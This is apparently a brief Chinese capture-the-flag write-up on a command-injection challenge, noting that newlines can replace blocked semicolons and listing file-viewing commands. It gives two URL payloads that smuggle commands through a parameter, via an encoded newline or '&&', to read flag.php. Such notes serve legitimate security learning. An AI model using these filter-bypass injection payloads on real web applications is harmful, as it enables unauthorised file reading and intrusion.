

# 知识点
### 换行符 替换 分号
### 查看文件命令-cat，tac，head，tail，more，less，nl
[http://blog.chinaunix.net/uid-128922-id-289974.html](http://blog.chinaunix.net/uid-128922-id-289974.html)
# 思路
payload
```bash
方法一 ?c=tac flag.php%0a
方法二 ?c=nl flag.php%26%26   %26 - &
```

